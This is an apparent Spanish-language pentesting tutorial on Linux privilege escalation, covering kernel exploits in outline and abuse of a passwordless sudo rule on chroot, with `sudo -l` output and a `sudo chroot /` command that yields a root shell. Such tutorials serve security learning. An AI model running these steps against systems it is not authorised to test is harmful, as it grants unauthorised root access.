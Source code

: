 ![](/assets/images/escalada-de-privilegios/escaladakernel.jpg)

# ESCALADA DE PRIVILEGIOS VULNERABILIDADES DEL KERNEL

*La metodología es simple*

1. Identificar versión del Kernel

```bash
❯ uname -a
Linux elc4br4 3.13.0-24-generic #46-Ubuntu SMP
```

2. Buscar y encontrar un código de explotación o exploit para el kernel.

![](/assets/images/escalada-de-privilegios/escalada1.png)


3. Ejecutar el exploit y conseguir escalar privilegios.

![](/assets/images/escalada-de-privilegios/escalada2.png)


![](/assets/images/escalada-de-privilegios/escalada3.png)

# ESCALADA DE PRIVILEGIOS CON SUDO

El primer paso es descubrir que permisos tiene el usuario, usando el comando:

`sudo -l`

```bash
❯ sudo -l
Matching Defaults entries for elc4br4 on elc4br4:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User elc4br4 may run the following commands on elc4br4:
    (root) NOPASSWD: /usr/bin/chroot
    (ALL : ALL) ALL
```

Como podemos ver, se puede ejecutar el binario chroot como root sin contraseña.

Aprovecharemos esta vulnerabilidad para convertirnos en root.

Usaremos la siguiente fuente:

[https://gtfobins.github.io/](https://gtfobins.github.io/)

![](/assets/images/escalada-de-privilegios/gtfochroot.png)

```bash
❯ sudo chroot /
❯ id
uid=0(root) gid=0(root) groups=0(root),4(adm),20(dialout),119(wireshark),143(kaboxer)  
```
Como vemos, hemos pasado del usuario kali al usuario root.
